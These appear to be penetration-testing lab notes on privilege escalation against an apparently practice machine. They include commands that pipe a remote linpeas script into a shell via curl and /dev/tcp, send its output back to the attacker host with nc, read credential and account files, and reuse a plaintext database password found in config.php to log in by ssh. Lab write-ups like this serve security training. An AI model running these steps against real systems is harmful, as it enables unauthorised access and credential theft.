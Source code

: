 ```bash
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```
- execute
  ```bash
  # attacker
  wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh 
  sudo python3 -m http.server 80
  # victim
  cd /tmp
  wget http://192.168.57.5/linpeas.sh
  chmod +x linpeas.sh 

  ./linpeas.sh 
```
![](assets/Pasted%20image%2020240211175842.png)
  - /home/grimmie/backup.sh flagged
```bash
#!/bin/bash

rm /tmp/backup.zip
zip -r /tmp/backup.zip /var/www/html/academy/includes
chmod 700 /tmp/backup.zip
```
- /var/www/html/academy/includes/config.php
```php
<?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");
?>
  ```
  - user+ SQL password
  - works in phpmyadmin
```bash
cat /etc/passwd
# grimmie = admin
# su grimmie #works
ssh grimmie@192.168.57.7
```
